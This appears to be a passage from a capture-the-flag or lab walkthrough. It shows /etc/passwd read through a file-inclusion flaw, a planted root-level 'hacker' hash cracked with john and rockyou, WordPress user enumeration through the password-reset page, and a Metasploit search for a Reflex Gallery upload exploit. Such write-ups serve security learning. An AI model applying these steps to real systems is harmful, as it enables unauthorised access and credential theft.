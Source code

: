 - Output:
```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false whoopsie:x:112:117::/nonexistent:/bin/false kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin saned:x:114:119::/var/lib/saned:/usr/sbin/nologin pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false raj:x:1000:1000:raj,,,:/home/raj:/bin/bash mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false sshd:x:124:65534::/run/sshd:/usr/sbin/nologin hacker:$1$hacker$zVnrpoW2JQO5YUrLmAs.o1:0:0:root:/root:/bin/bash
```
- From the output, we can see a password hash and a user hacker, hmm, possibly details the hacker forgot to clean up.
- I thus copied the hash into a file **test.txt** and used **john** to crack the hash:
```
john --wordlist=/usr/share/wordlists/rockyou.txt test.txt
```

- This reveals a user **hacker** and the password cracked was **pass123**
- Tried this on the wordpress login page but it didn't work, so i saved it for later use.
- On wordpress login tried other combinations such as **admin**, **adminuser**, **admin123**, couldn't find anything so i decided to result to user enumeration first by trying to reset the password
- Click on forgot password, and enter a random username/email, this tells us the user/username doesn't exist but trying the user **admin** tells us mail() service has been disabled thus confirming the user **admin** exists
- Checking on further, there are various ways to upload from LFI to get an RCE but i coudn't read any of the files outside the /etc folder so i resulted to putting it aside for later as a last option and try other methods.

### Reflex gallery
- Having no other lead from LFI, i decided to move on with trying to exploit the reflex gallery
- Decide to use metasploit to see if i can use it for the reflex gallery exploit:
```
msf6 > search reflex

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_reflexgallery_file_upload  2012-12-30       excellent  Yes    Wordpress Reflex Gallery Upload Vulnerability


```
